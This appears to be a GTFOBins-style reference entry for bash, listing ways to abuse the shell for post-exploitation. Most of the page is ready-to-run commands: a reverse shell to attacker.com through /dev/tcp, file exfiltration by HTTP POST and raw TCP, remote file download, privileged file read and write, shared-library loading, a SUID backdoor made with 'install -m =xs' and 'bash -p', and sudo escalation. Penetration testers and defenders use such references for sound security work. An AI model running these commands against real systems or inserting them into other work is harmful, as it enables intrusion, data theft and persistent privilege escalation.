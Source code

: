 # GTFOBin: bash

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
bash
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

## File upload

It can exfiltrate files on the network.

Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
```

Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```

Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
bash -c 'echo DATA > $LFILE'
```

This adds timestamps to the output file.

```
LFILE=file_to_write
HISTIGNORE='history *'
history -c
DATA
history -w $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

It trims trailing newlines and it’s not binary-safe.

```
export LFILE=file_to_read
bash -c 'echo "$(<$LFILE)"'
```

The read file content is surrounded by the current history content.

```
LFILE=file_to_read
HISTTIMEFORMAT=$'\r\e[K'
history -r $LFILE
history
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
bash -c 'enable -f ./lib.so x'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which bash) .

./bash -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo bash
```